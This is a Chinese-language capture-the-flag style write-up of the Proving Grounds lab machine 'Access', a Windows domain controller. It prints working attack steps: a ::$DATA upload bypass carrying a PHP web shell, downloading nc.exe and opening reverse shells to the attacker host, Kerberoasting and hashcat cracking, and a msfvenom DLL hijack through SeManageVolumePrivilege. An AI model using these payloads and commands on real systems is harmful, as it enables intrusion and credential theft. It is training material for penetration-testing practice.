

# ProvingGrounds Access Writeup


## Access

第14台，Windows系统，难度中等Intermediate，名称 Access

IP：192.168.xx.187


## Port

```sh
┌──(xavier㉿kali)-[~/Desktop/OSCP/PG_Practice/Access]
└─$ sudo nmap -n -r --min-rate=3500 -sSV  -T4 192.168.167.187
[sudo] xavier 的密码：
Starting Nmap 7.94 ( https://nmap.org ) at 2024-01-11 23:53 CST
Nmap scan report for 192.168.167.187
Host is up (0.17s latency).
Not shown: 988 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Apache httpd 2.4.48 ((Win64) OpenSSL/1.1.1k PHP/8.0.7)
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-01-11 15:53:35Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: access.offsec0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: access.offsec0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: SERVER; OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.97 seconds
```

## Init Access

### 53-DNS

域传送失败

```sh
┌──(xavier㉿kali)-[~]
└─$ dnsrecon -d access.offsec -n 192.168.167.187 -t axfr
[*] Checking for Zone Transfer for access.offsec name servers
[*] Resolving SOA Record
[&#43;]      SOA server.access.offsec 192.168.167.187
[*] Resolving NS Records
[*] NS Servers found:
[&#43;]      NS server.access.offsec 192.168.167.187
[*] Removing any duplicate NS server IP Addresses...
[*]  
[*] Trying NS server 192.168.167.187
[&#43;] 192.168.167.187 Has port 53 TCP Open
[-] Zone Transfer Failed (Zone transfer error: REFUSED)
```

### 88-Kerberos

域用户爆破

```sh
┌──(xavier㉿kali)-[~]
└─$ sudo nmap -p 88 --script=krb5-enum-users --script-args krb5-enum-users.realm=&#34;access.offsec&#34;,userdb=&#34;/usr/share/wordlists/seclists/Usernames/Names/names.txt&#34; 192.168.167.187
```

无成果

### 80-http

Web扫描

```sh
┌──(xavier㉿kali)-[~/Desktop/OSCP/PG_Practice/Access]
└─$ dirsearch -x 400,403,404  -t 500 -e php,ini,txt,bak -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -u http://192.168.167.187

┌──(xavier㉿kali)-[~/Desktop/OSCP/PG_Practice/Access]
└─$ dirsearch -x 400,404  -t 500 -e php,ini,txt,bak -u http://192.168.167.187 
```

发下如下：

```
http://192.168.167.187/cgi-bin/printenv.pl		# 系统环境信息
```

对Web页面进行信息搜集，发现一个文件上传功能点



尝试上传PHP文件失败


尝试绕过

Web扫描时发现有

```sh
┌──(xavier㉿kali)-[~/Desktop/OSCP/PG_Practice/Access]
└─$ dirsearch -x 400,404  -t 500 -e php,ini,txt,bak -u http://192.168.167.187 
……
[00:08:28] 301 -  344B  - /uploads  -&gt;  http://192.168.167.187/uploads/     
[00:08:28] 403 -  304B  - /web.config::$DATA                                
[00:08:29] 403 -  423B  - /webalizer
```

尝试使用`::$DATA`进行文件上传绕过，成功。


```http
POST /Ticket.php HTTP/1.1
Host: 192.168.167.187
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml&#43;xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------29739589853663594743950605566
Content-Length: 782
Origin: http://192.168.167.187
Connection: close
Referer: http://192.168.167.187/
Upgrade-Insecure-Requests: 1

-----------------------------29739589853663594743950605566
Content-Disposition: form-data; name=&#34;your-name&#34;

tst
-----------------------------29739589853663594743950605566
Content-Disposition: form-data; name=&#34;your-email&#34;

test@test.com
-----------------------------29739589853663594743950605566
Content-Disposition: form-data; name=&#34;ticket-type&#34;

standard-access
-----------------------------29739589853663594743950605566
Content-Disposition: form-data; name=&#34;the_file&#34;; filename=&#34;test.PHP::$DATA&#34;
Content-Type:  application/x-php

&lt;?php echo 123; echo system($_REQUEST[&#39;cmd&#39;]);  ?&gt;
-----------------------------29739589853663594743950605566
Content-Disposition: form-data; name=&#34;submit&#34;

Purchase
-----------------------------29739589853663594743950605566--

```

在uploads目录下找到所上传的文件，命令执行成功

```sh
┌──(xavier㉿kali)-[~/Desktop/OSCP/PG_Practice/Access]
└─$ curl &#34;http://192.168.167.187/uploads/test.PHP?cmd=whoami&#34;           
123access\svc_apache
access\svc_apache 
```

下载nc，并进行反弹shell

```sh
cmd=mkdir&#43;C:\tmp\
cmd=dir&#43;C:\tmp\
cmd=curl&#43;http://192.168.45.169/nc64.exe&#43;-o&#43;C:\tmp\nc.exe
cmd=C:\tmp\nc.exe&#43;192.168.45.169&#43;443&#43;-e&#43;powershell
```


```sh
┌──(xavier㉿kali)-[~/Desktop/OSCP/PG_Practice/Access]
└─$ nc -nlvp 443
listening on [any] 443 ...
connect to [192.168.45.169] from (UNKNOWN) [192.168.167.187] 50217
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\xampp\htdocs\uploads&gt; whoami
whoami
access\svc_apache
PS C:\xampp\htdocs\uploads&gt; 
```


## PrivE

上传工具

```sh
PS C:\tmp&gt; curl http://192.168.45.169/winPEASany.exe -o C:\tmp\winPEASany.exe
PS C:\tmp&gt; dir

PS C:\tmp&gt; ./winPEASany.exe &gt; 1.txt
```


### SPN

在当前用户下没有local.txt文件，注意到还有另一个svc_mssql账户

```sh
PS C:\tmp&gt; dir C:\users\
    Directory: C:\users

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        5/28/2021   3:53 AM                Administrator
d-r---        5/28/2021   3:53 AM                Public
d-----         4/8/2022   2:39 AM                svc_apache
d-----         4/8/2022   2:40 AM                svc_mssql
```

搜集SPN，测试过程中发现kali自带的empire下的get-spn.ps1无法实现效果，于是从网上找了一个脚本，地址：https://github.com/compwiz32/PowerShell/blob/master/Get-SPN.ps1

```powershell
# Source / credit:
# https://social.technet.microsoft.com/wiki/contents/articles/18996.active-directory-powershell-script-to-list-all-spns-used.aspx

cls
$search = New-Object DirectoryServices.DirectorySearcher([ADSI]&#34;&#34;)
$search.filter = &#34;(servicePrincipalName=*)&#34;

## You can use this to filter for OU&#39;s:
## $results = $search.Findall() | ?{ $_.path -like &#39;*OU=whatever,DC=whatever,DC=whatever*&#39; }
$results = $search.Findall()

foreach( $result in $results ) {
	$userEntry = $result.GetDirectoryEntry()
	Write-host &#34;Object Name = &#34; $userEntry.name -backgroundcolor &#34;yellow&#34; -foregroundcolor &#34;black&#34;
	Write-host &#34;DN      =      &#34;  $userEntry.distinguishedName
	Write-host &#34;Object Cat. = &#34;  $userEntry.objectCategory
	Write-host &#34;servicePrincipalNames&#34;

	$i=1
	foreach( $SPN in $userEntry.servicePrincipalName ) {
		Write-host &#34;SPN(&#34; $i &#34;)   =      &#34; $SPN
		$i&#43;=1
	}
	Write-host &#34;&#34;
}
```


svc_mssql的SPN为 MSSQLSvc/DC.access.offsec

```sh
PS C:\tmp&gt; iwr -uri http://192.168.45.169/Get-SPN.ps1 -o Get-SPN.ps1
iwr -uri http://192.168.45.169/Get-SPN.ps1 -o Get-SPN.ps1

PS C:\tmp&gt; ./Get-SPN.ps1
./Get-SPN.ps1
Object Name =  SERVER
DN      =       CN=SERVER,OU=Domain Controllers,DC=access,DC=offsec
Object Cat. =  CN=Computer,CN=Schema,CN=Configuration,DC=access,DC=offsec
servicePrincipalNames
SPN( 1 )   =       Dfsr-12F9A27C-BF97-4787-9364-D31B6C55EB04/SERVER.access.offsec
SPN( 2 )   =       ldap/SERVER.access.offsec/ForestDnsZones.access.offsec
SPN( 3 )   =       ldap/SERVER.access.offsec/DomainDnsZones.access.offsec
SPN( 4 )   =       DNS/SERVER.access.offsec
SPN( 5 )   =       GC/SERVER.access.offsec/access.offsec
SPN( 6 )   =       RestrictedKrbHost/SERVER.access.offsec
SPN( 7 )   =       RestrictedKrbHost/SERVER
SPN( 8 )   =       RPC/20dae709-54fe-40ec-8c68-4475793b542a._msdcs.access.offsec
SPN( 9 )   =       HOST/SERVER/ACCESS
SPN( 10 )   =       HOST/SERVER.access.offsec/ACCESS
SPN( 11 )   =       HOST/SERVER
SPN( 12 )   =       HOST/SERVER.access.offsec
SPN( 13 )   =       HOST/SERVER.access.offsec/access.offsec
SPN( 14 )   =       E3514235-4B06-11D1-AB04-00C04FC2DCD2/20dae709-54fe-40ec-8c68-4475793b542a/access.offsec
SPN( 15 )   =       ldap/SERVER/ACCESS
SPN( 16 )   =       ldap/20dae709-54fe-40ec-8c68-4475793b542a._msdcs.access.offsec
SPN( 17 )   =       ldap/SERVER.access.offsec/ACCESS
SPN( 18 )   =       ldap/SERVER
SPN( 19 )   =       ldap/SERVER.access.offsec
SPN( 20 )   =       ldap/SERVER.access.offsec/access.offsec

Object Name =  krbtgt
DN      =       CN=krbtgt,CN=Users,DC=access,DC=offsec
Object Cat. =  CN=Person,CN=Schema,CN=Configuration,DC=access,DC=offsec
servicePrincipalNames
SPN( 1 )   =       kadmin/changepw

Object Name =  MSSQL
DN      =       CN=MSSQL,CN=Users,DC=access,DC=offsec
Object Cat. =  CN=Person,CN=Schema,CN=Configuration,DC=access,DC=offsec
servicePrincipalNames
SPN( 1 )   =       MSSQLSvc/DC.access.offsec

PS C:\tmp&gt; 

```


### Ticket

接下去获取`svc_mssql`的票据，使用如下命令将ticket存储在内存中：

```sh
PS C:\tmp&gt; Add-Type -AssemblyName System.IdentityModel
Add-Type -AssemblyName System.IdentityModel
PS C:\tmp&gt; New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList &#39;MSSQLSvc/DC.access.offsec&#39;
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList &#39;MSSQLSvc/DC.access.offsec&#39;


Id                   : uuid-b4d9ac78-ba0f-45f4-8020-5dec3d5e6101-1
SecurityKeys         : {System.IdentityModel.Tokens.InMemorySymmetricSecurityKey}
ValidFrom            : 1/11/2024 5:44:07 PM
ValidTo              : 1/12/2024 3:44:07 AM
ServicePrincipalName : MSSQLSvc/DC.access.offsec
SecurityKey          : System.IdentityModel.Tokens.InMemorySymmetricSecurityKey
```


利用Empire 的 Invoke-Kerberoast.ps1 导出内存中的Kerberoast hash

```shell
PS C:\tmp&gt; iex(new-object net.webclient).downloadString(&#39;http://192.168.45.169/Invoke-Kerberoast.ps1&#39;); Invoke-Kerberoast -OutputFormat Hashcat


TicketByteHexStream  : 
Hash                 : $krb5tgs$23$*svc_mssql$access.offsec$MSSQLSvc/DC.access.offsec*$600077ADCF96E989D8C9A8D1AE325F08
$A0DA4C8A4C76EB098A4567BBCA91C9883EAA1F35C75428CEE9F738D9044A5F0F41153B51832DA55E14097C267EA14BF
88A9861E14500A2E1E3D8E95269FD34FEA33A40EFF9658E40C8DADFDD868D17A49BDCD72575BBF060267B0F4F7617BFF
028165312F9D575F2189828715749CABD5AD9308D4BE166A4B3B3736ECFEC98367F0E43E93DE1E498F86AF3E8AB9B446
3448467DCBD60E25B8051656976F5D1B9DFCB02D3FABC7B1578FEC8570B4D606E6EADCC8A0BA80C9F2C1F2B395F46A2E
98008B02B42DABEF1800C3264B7BE558FFFF96FDC93D9133166124308C0CD7548827E217821ED41C05C1904665C711F9
E21C964A98A94D2568EF863542259C31B36457D146B93FAA8B682E48C49B1281C54D56051406869FE8683DF28D38A5BD
48503640ABBEB4AF5DDDA28046377D80D8A018D38E50EC925FD845838EFA60D34AA29E4BC1A1B0B54A8929546C9DC642
866C34ED547590237A04DE24E76D774467A7F42836C5ED87D9A50E0C7C225B7F107F16135CE4063507BC8B9DA72AD454
92FBFC6E37B946A0D66D109D4C41923D174B63F3AB9C41B2F8DFD814B0B01C9178B48C0C851FD623E8FEAB6FCC83BCF7
358C87BF4D3CAABF382DFB4E660116DA8604CFD0C83847064DF06CF15479583E7D108552E5E914DD6DBB12CA6AE6561B
85F54A84ECBD92CA3C64EA8D27D80904E5FB0554B7FC04A3C49A237BB12D7D22D5384C1A7A7F81E1C8CC22A9C9C860F4
F66D4F469FDD8D02752E547A604627EA2C1CE1110D7F4B5BA374DF19E5CD003F7F9ACEBCD65346276503E304D98E952A
2ACE9586F012BDAB4DAB26A176A93B0F82CA65A7D39175DC2A9F14BD8B6B9079AE1324E0A64CF24539A616012773C0E3
214C62366F1F4FE67508262DD9402DB08A93B8485C3E61E843788517AD4B70A937667585493540EE55837097DA324686
EA8AE61DAA9F6B4CB4AA98D2E870DEFEB33DD2BFBE0C7758E57EB3C10F08B67484339CB877C327B63A1D37E5FDFD9478
35BCBB3B24A742C64CF98316B20C14973A8A32C61A739E7B0C40D59777C2BE502E79AC51571E9A1E3A8F9AC8BB8B024D
742106656D1F4CBA5D5C7DB50D2EFA204A50ABC665F6BB86B1DC18F9A8C3E4F7413BFCB2B504F6C353709CE120885AD6
2A7A11F22D2F4B95A7B2D8ADE89F25A344CE6E85B4A1E33072D43A7838A25DCBFFC7110E559C15D54C39BC4BD287387A
C4099BF18D926CD464F9A4F2927DA5944360A8ECB1CC5998AF1017554E58CCE2E1BEDBD4A0BC4DEAEB97F914BA05B184
D522ACA5FA8FEF3F5DAC9D71C1E0C7A8E72AD7D98C114C156A05D695AC5CDBEFAD407BB65FBFE8955E58C4DE0519EBBA
102F46241BD2C3EE053FF2E5D78493CDF75CC113CF3FC3A72E0B22F24D9845385A8613C5E30DA408D7095806607EBD04
797BF7FE35EB5AF096B0A144D92B103C9FB30F150C2EEFAC49737DEBF38B781822E39409BCFF12657F2E1CFDB0DA7168
EFA2DD9CB42D6694C4FF65AEC36E529E4DD06E66384E7AEF3AF37A9F45DC9DCC99C57F5E94A36661517037FBC81FEF72
81940B899A369EC5EC91804161EDA0B3E4BA39E7957A85027DB3825FA0AA490B74514
SamAccountName       : svc_mssql
DistinguishedName    : CN=MSSQL,CN=Users,DC=access,DC=offsec
ServicePrincipalName : MSSQLSvc/DC.access.offsec

```


### Crack Hash

整理hash格式写入文件

使用hashcat进行破解

```sh
┌──(xavier㉿kali)-[~/Desktop/OSCP/PG_Practice/Access]
└─$ hashcat -m 13100 mssql.hash /usr/share/wordlists/rockyou.txt  --force -a 0 --show
$krb5tgs$23$*svc_mssql$access.offsec$MSSQLSvc/DC.access.offsec*$600077adcf96e989d8c9a8d1ae325f08$a0da4c8a4c76eb098a4567bbca91c9883eaa1f35c75428cee9f738d9044a5f0f41153b51832da55e14097c267ea14bf88a9861e14500a2e1e3d8e95269fd34fea33a40eff9658e40c8dadfdd868d17a49bdcd72575bbf060267b0f4f7617bff028165312f9d575f2189828715749cabd5ad9308d4be166a4b3b3736ecfec98367f0e43e93de1e498f86af3e8ab9b4463448467dcbd60e25b8051656976f5d1b9dfcb02d3fabc7b1578fec8570b4d606e6eadcc8a0ba80c9f2c1f2b395f46a2e98008b02b42dabef1800c3264b7be558ffff96fdc93d9133166124308c0cd7548827e217821ed41c05c1904665c711f9e21c964a98a94d2568ef863542259c31b36457d146b93faa8b682e48c49b1281c54d56051406869fe8683df28d38a5bd48503640abbeb4af5ddda28046377d80d8a018d38e50ec925fd845838efa60d34aa29e4bc1a1b0b54a8929546c9dc642866c34ed547590237a04de24e76d774467a7f42836c5ed87d9a50e0c7c225b7f107f16135ce4063507bc8b9da72ad45492fbfc6e37b946a0d66d109d4c41923d174b63f3ab9c41b2f8dfd814b0b01c9178b48c0c851fd623e8feab6fcc83bcf7358c87bf4d3caabf382dfb4e660116da8604cfd0c83847064df06cf15479583e7d108552e5e914dd6dbb12ca6ae6561b85f54a84ecbd92ca3c64ea8d27d80904e5fb0554b7fc04a3c49a237bb12d7d22d5384c1a7a7f81e1c8cc22a9c9c860f4f66d4f469fdd8d02752e547a604627ea2c1ce1110d7f4b5ba374df19e5cd003f7f9acebcd65346276503e304d98e952a2ace9586f012bdab4dab26a176a93b0f82ca65a7d39175dc2a9f14bd8b6b9079ae1324e0a64cf24539a616012773c0e3214c62366f1f4fe67508262dd9402db08a93b8485c3e61e843788517ad4b70a937667585493540ee55837097da324686ea8ae61daa9f6b4cb4aa98d2e870defeb33dd2bfbe0c7758e57eb3c10f08b67484339cb877c327b63a1d37e5fdfd947835bcbb3b24a742c64cf98316b20c14973a8a32c61a739e7b0c40d59777c2be502e79ac51571e9a1e3a8f9ac8bb8b024d742106656d1f4cba5d5c7db50d2efa204a50abc665f6bb86b1dc18f9a8c3e4f7413bfcb2b504f6c353709ce120885ad62a7a11f22d2f4b95a7b2d8ade89f25a344ce6e85b4a1e33072d43a7838a25dcbffc7110e559c15d54c39bc4bd287387ac4099bf18d926cd464f9a4f2927da5944360a8ecb1cc5998af1017554e58cce2e1bedbd4a0bc4deaeb97f914ba05b184d522aca5fa8fef3f5dac9d71c1e0c7a8e72ad7d98c114c156a05d695ac5cdbefad407bb65fbfe8955e58c4de0519ebba102f46241bd2c3ee053ff2e5d78493cdf75cc113cf3fc3a72e0b22f24d9845385a8613c5e30da408d7095806607ebd04797bf7fe35eb5af096b0a144d92b103c9fb30f150c2eefac49737debf38b781822e39409bcff12657f2e1cfdb0da7168efa2dd9cb42d6694c4ff65aec36e529e4dd06e66384e7aef3af37a9f45dc9dcc99c57f5e94a36661517037fbc81fef7281940b899a369ec5ec91804161eda0b3e4ba39e7957a85027db3825fa0aa490b74514:trustno1
```


### RunasCs

接下去需要获取mssql身份的反弹shell，可以使用&#34;[Invoke-RunasCs.ps1](https://github.com/antonioCoco/RunasCs/blob/master/Invoke-RunasCs.ps1)&#34;这个脚本

```sh
PS C:\tmp&gt; curl https://raw.githubusercontent.com/antonioCoco/RunasCs/master/Invoke-RunasCs.ps1 -o Invoke-RunasCs.ps1
curl https://raw.githubusercontent.com/antonioCoco/RunasCs/master/Invoke-RunasCs.ps1 -o Invoke-RunasCs.ps1
PS C:\tmp&gt; ls

    Directory: C:\tmp

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        1/11/2024   8:50 AM         498700 1.txt
-a----        1/11/2024   9:06 AM              0 2.txt
-a----        1/11/2024   9:38 AM            883 Get-SPN.ps1
-a----        1/11/2024   9:46 AM          46818 Invoke-Kerberoast.ps1
-a----        1/11/2024  10:09 AM          88284 Invoke-RunasCs.ps1
-a----        1/11/2024   8:45 AM          43696 nc.exe
-a----        1/11/2024   8:49 AM        2029568 winPEASany.exe


PS C:\tmp&gt; import-module ./Invoke-RunasCs.ps1
import-module ./Invoke-RunasCs.ps1
PS C:\tmp&gt; Invoke-RunasCs -Username svc_mssql -Password trustno1 -Command &#34;whoami&#34;
Invoke-RunasCs -Username svc_mssql -Password trustno1 -Command &#34;whoami&#34;
[*] Warning: The logon for user &#39;svc_mssql&#39; is limited. Use the flag combination --bypass-uac and --logon-type &#39;8&#39; to obtain a more privileged token.

access\svc_mssql

PS C:\tmp&gt; Invoke-RunasCs -Username svc_mssql -Password trustno1 -Command &#34;C:\tmp\nc.exe 192.168.45.169 7777 -e powershell&#34;
Invoke-RunasCs -Username svc_mssql -Password trustno1 -Command &#34;C:\tmp\nc.exe 192.168.45.169 7777 -e powershell&#34;
[*] Warning: The logon for user &#39;svc_mssql&#39; is limited. Use the flag combination --bypass-uac and --logon-type &#39;8&#39; to obtain a more privileged token.

```


```sh
PS C:\Windows\system32&gt; cd C:\users\svc_mssql\Desktop\
cd C:\users\svc_mssql\Desktop\
PS C:\users\svc_mssql\Desktop&gt; cat local.txt
cat local.txt
ac7cd92298a3ec65de98ea4c51f9e95e
```


## PrivE

再次进行信息搜集

发现当前用户权限如下：

```sh
PS C:\tmp&gt; whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                      State   
============================= ================================ ========
SeMachineAccountPrivilege     Add workstations to domain       Disabled
SeChangeNotifyPrivilege       Bypass traverse checking         Enabled 
SeManageVolumePrivilege       Perform volume maintenance tasks Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set   Disabled
```

其中`SeManageVolumePrivilege`权限可被用于提权，相关链接：https://github.com/xct/SeManageVolumeAbuse

需要用vs stuido手动编译一下

```sh
PS C:\tmp&gt; curl http://192.168.45.169/SeManageVolumeAbuse.exe -o SeManageVolumeAbuse.exe
curl http://192.168.45.169/SeManageVolumeAbuse.exe -o SeManageVolumeAbuse.exe

PS C:\tmp&gt; ./SeManageVolumeAbuse.exe
./SeManageVolumeAbuse.exe
Success! Permissions changed.
PS C:\tmp&gt; icacls C:/windows
icacls C:/windows
C:/windows NT SERVICE\TrustedInstaller:(F)
           NT SERVICE\TrustedInstaller:(CI)(IO)(F)
           NT AUTHORITY\SYSTEM:(M)
           NT AUTHORITY\SYSTEM:(OI)(CI)(IO)(F)
           BUILTIN\Users:(M)
           BUILTIN\Users:(OI)(CI)(IO)(F)
           BUILTIN\Users:(RX)
           BUILTIN\Users:(OI)(CI)(IO)(GR,GE)
           CREATOR OWNER:(OI)(CI)(IO)(F)
           APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(RX)
           APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(OI)(CI)(IO)(GR,GE)
           APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(RX)
           APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(OI)(CI)(IO)(GR,GE)

Successfully processed 1 files; Failed processing 0 files
PS C:\tmp&gt; 
```

接下去要上传 tzres.dll到 C:\Windows\System32\wbem\tzres.dll，再通过systeminfo命令去触发它

使用msfvenom生成一个64位反弹shell的dll文件

```sh
┌──(xavier㉿kali)-[~/Desktop/OSCP/PG_Practice/Access]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.169 LPORT=4444 -f dll -o tzres.dll 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of dll file: 9216 bytes
Saved as: tzres.dll

```


```sh
PS C:\tmp&gt; curl http://192.168.45.169/tzres.dll -o tzres.dll                                                                          
curl http://192.168.45.169/tzres.dll -o tzres.dll                                                                                     
PS C:\tmp&gt; cp tzres.dll C:\Windows\System32\wbem\tzres.dll
cp tzres.dll C:\Windows\System32\wbem\tzres.dll
PS C:\tmp&gt; systeminfo &gt; 5.txt
systeminfo &gt; 5.txt
systeminfo : ERROR: The remote procedure call failed.
At line:1 char:1
&#43; systeminfo &gt; 5.txt
&#43; ~~~~~~~~~~~~~~~~~~
    &#43; CategoryInfo          : NotSpecified: (ERROR: The remote procedure call failed.:String) [], RemoteException
    &#43; FullyQualifiedErrorId : NativeCommandError
 
PS C:\tmp&gt; 
```

收到反弹shell：

```sh
┌──(xavier㉿kali)-[~/Desktop/OSCP/PG_Practice/Access]
└─$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [192.168.45.169] from (UNKNOWN) [192.168.167.187] 50960
Microsoft Windows [Version 10.0.17763.2746]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32&gt;whoami
whoami
nt authority\network service

C:\Windows\system32&gt;cd C:\users\administrator\desktop\
cd C:\users\administrator\desktop\

C:\Users\Administrator\Desktop&gt;type proof.txt
type proof.txt
d0be636ebf08cd4c91a276012f25a135

```


---

> 作者: Xavier  
> URL: http://localhost:1313/posts/provinggrounds-access/  

